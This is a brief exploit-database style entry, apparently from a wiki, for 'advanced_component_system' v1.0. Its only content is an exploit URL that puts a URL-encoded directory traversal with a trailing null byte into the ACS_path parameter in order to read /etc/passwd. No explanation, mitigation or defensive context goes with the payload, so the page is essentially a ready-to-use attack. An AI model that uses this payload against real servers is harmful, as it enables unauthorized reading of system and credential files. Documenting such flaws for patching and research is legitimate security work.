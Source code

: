 <languages /> <translate>

影響版本
--------

</translate> v1.0

EXP
---

    http://localhost/advanced_component_system/index.php?ACS_path=..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2f..%2fetc%2fpasswd%00